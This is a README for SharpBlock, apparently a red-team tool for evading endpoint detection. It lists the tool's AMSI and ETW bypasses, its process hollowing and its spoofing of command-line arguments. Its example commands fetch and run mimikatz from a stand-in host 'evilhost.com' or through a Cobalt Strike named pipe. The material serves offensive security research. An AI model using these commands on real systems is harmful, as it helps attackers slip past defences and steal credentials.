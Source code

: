 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.
* Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
* Patchless ETW bypass 

```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x86_64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -s, --spawn=VALUE          Host process to spawn for swapping with the target
                               exe
      --disable-bypass-amsi  Disable AMSI bypassAmsi
      --disable-bypass-cmdline
                             Disable command line bypass
      --disable-bypass-etw   Disable ETW bypass
      --disable-header-patch Disable process hollow detection bypass
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload_file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 

